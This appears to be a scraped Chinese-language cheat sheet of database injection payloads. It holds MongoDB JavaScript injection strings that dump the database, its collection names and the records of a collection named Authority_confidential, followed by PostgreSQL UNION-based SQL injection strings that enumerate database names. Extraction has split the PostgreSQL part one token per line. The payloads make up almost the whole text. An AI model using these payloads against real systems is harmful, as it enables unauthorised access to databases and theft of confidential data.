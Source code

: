 ![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1TPgcIRoFXehPYmHNOophV0Rb01urrTfibdGB6iaWC3Z3pGDWIn7GhNuJ1X2yibliaqCYVOUE5ELgVJQ/640?wx_fmt=png&from=appmsg "")  
  
Mongodb  
  
![](https://mmbiz.qpic.cn/mmbiz_png/HgEiaULLGWT1TPgcIRoFXehPYmHNOophVJN4zMKEg75oqSONRp7UFvGFfKnV6NVBW3v4Rr2dJYO8nmOrXVUib1bg/640?wx_fmt=png&from=appmsg "")  
  
构造回显：  
  
'}); return ({title:1,content:'2  
  
爆库：  
  
'}); return ({title:tojson(db),content:'1  
  
爆表：  
  
1'}); return ({title:tojson(db.getCollectionNames()),content:'1  
  
爆字段：  
  
'}); return ({title:tojson(db.Authority_confidential.find()[0]),content:'1  
  
PostgreSQL  
  
and  
1  
=  
2  
union  
select  
'null'  
,  
null  
,  
null  
,  
null  
  
and  
1  
=  
2  
union  
select  
null  
,  
'null'  
,  
null  
,  
null  
  
and  
1  
=  
2  
union  
select  
null  
,  
null  
,  
string_agg  
(  
datname  
,  
','  
),  
null  
